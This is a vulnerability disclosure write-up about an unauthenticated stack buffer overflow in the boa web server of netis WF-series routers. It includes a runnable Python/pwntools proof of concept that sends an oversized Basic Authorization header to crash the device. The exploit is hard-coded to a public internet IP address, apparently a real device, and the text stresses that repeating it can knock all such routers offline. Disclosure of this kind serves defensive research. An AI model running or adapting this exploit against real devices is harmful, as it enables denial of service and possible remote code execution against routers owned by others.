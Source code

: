 ## netis Denial of service
Product: netis WF2411-WF2880 (http://www.netis-systems.com/Home/info/id/2/hi/21.html)

version：The latest firmware --netis(WF2411)-V2.1.36123(http://www.netis-systems.com/Suppory/de_details/id/1/de/29.html)

Different device firmware version numbers may be different

![image](https://github.com/WhooAmii/whooamii.github.io/blob/master/2018/netis/1.png)

Vulnerability location: file:  /bin/boa

function:user_auth->user_ok

Vulnerability Type: buffer overflow cause Denial of service
## Vulnerability Description
There is a stack overflow vulnerability that does not require authentication

This can cause Denial of service or  remote code execution
An attacker can restart a remote device by sending a malicious packet.

Code execution can also be achieved through ROP technology, but it is more difficult

This vulnerability can be triggered by a normal get packet
![image](https://github.com/WhooAmii/whooamii.github.io/blob/master/2018/netis/2.png)
## POC
```
import requests
import sys
import struct
import time
import base64
from pwn import *






def syscmd1(a):
	p=remote('195.211.139.95',8080)
	payload=''
	payload+='GET / HTTP/1.1\r\n'
	payload+='Host: 192.168.0.1\r\n'
	payload+='Authorization: Basic '+base64.b64encode(payload1)+'\r\n'
	payload+='Upgrade-Insecure-Requests: 1\r\n'
	payload+='User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98\r\n'
	payload+='Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8\r\n'

	payload+='Accept-Encoding: gzip, deflate\r\n'
	payload+='Accept-Language: zh-CN,zh;q=0.9"'
	payload+='Connection: close\r\n'
	payload+='\r\n'
	print payload
	p.send(payload)
	p.close()

if __name__ == "__main__":

				payload1='a:aa'+'a'*0x80
				print len(payload1)
				syscmd1('123')		
				print 'down'


```
![image](https://github.com/WhooAmii/whooamii.github.io/blob/master/2018/netis/3.png)
![image](https://github.com/WhooAmii/whooamii.github.io/blob/master/2018/netis/4.png)

## Harm
Can be accessed on the public network
An attacker can make all WF Series devices unusable by sending packets continuously
![image](https://github.com/WhooAmii/whooamii.github.io/blob/master/2018/netis/6.png)

![image](https://github.com/WhooAmii/whooamii.github.io/blob/master/2018/netis/7.png)

![image](https://github.com/WhooAmii/whooamii.github.io/blob/master/2018/netis/9.png)

![image](https://github.com/WhooAmii/whooamii.github.io/blob/master/2018/netis/8.png)
